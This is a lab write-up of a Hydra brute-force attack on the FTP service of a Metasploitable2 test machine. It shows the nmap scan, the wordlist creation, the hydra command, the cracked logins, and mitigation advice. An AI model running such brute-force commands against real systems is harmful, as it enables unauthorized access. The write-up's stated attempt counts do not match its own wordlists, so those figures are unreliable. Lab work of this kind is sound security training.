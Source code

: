 # 🔐 Hydra FTP Brute-Force Attack Lab Report

**Author:** Abdulrahman Said  
**Date:** 06/29/2025

**Target IP:** 192.168.21.128  
**Service:** FTP (Port 21)  
**Tools Used:** hydra, nmap, echo, Linux CLI

---

## 📌 Executive Summary

This lab demonstrates the use of Hydra, a powerful password-cracking tool, to perform a brute-force attack against the FTP service on a vulnerable Metasploitable2 machine. The attack succeeded in discovering 5 valid login credentials.

---

## 🗺️ Network Topology

```
+------------------+              +-------------------------+
|  Kali Linux      | ------------|  Metasploitable2 (FTP)  |
|  192.168.21.X     |  FTP: 21   |  192.168.21.128         |
+------------------+              +-------------------------+
```

---

## 🛠️ Tools Description

- **Hydra:** A fast and flexible brute-force tool that supports many protocols.  
- **Nmap:** Used to confirm FTP (port 21) is open on the target machine.  
- **Echo + Redirection (>):** Used to create custom username and password lists.

---

## 📋 Steps Performed

### 1. Scan the Target for FTP
```bash
nmap -p 21 192.168.21.128
```
**Result:**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```

### 2. Create Wordlists
```bash
echo -e "msfadmin\nroot\ntoor\nadmin\nuser" > users.txt
echo -e "msfadmin\n123456\npassword\nadmin" > passwords.txt
```

### 3. Run Hydra Attack
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.21.128
```

---

## ✅ Hydra Output Summary
```bash
[21][ftp] host: 192.168.21.128   login: ftp       password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: root
[21][ftp] host: 192.168.21.128   login: msfadmin  password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: toor
[21][ftp] host: 192.168.21.128   login: ftp       password: 123456
```

---

## 🧠 Interpretation

The FTP service accepts weak and default credentials, including common names like ftp, msfadmin, toor, and 123456.  
Hydra tested 30 login attempts across 6 users × 5 passwords in seconds.

---

## ⚠️ Risk Assessment

| Risk                  | Description                             | Impact | Mitigation                          |
|-----------------------|-----------------------------------------|--------|-------------------------------------|
| Weak FTP Credentials  | Default/weak passwords easily cracked   | High   | Use strong, unique passwords        |
| Brute-force Vulnerable| Service does not rate-limit login tries | High   | Implement rate limiting or lockouts|
| FTP Unencrypted       | Credentials sent in plain text          | High   | Replace FTP with SFTP or disable FTP|

---

## 🛡️ Defense Recommendations

- Enforce strong password policies.  
- Disable FTP if not needed, or replace it with secure alternatives like SFTP.  
- Monitor logs for brute-force attempts.  
- Use tools like fail2ban to block repeated failed login attempts.

---

## 📎 Notes

This attack was conducted in a controlled lab environment.  
All actions were ethical and educational, targeting a deliberately vulnerable machine.
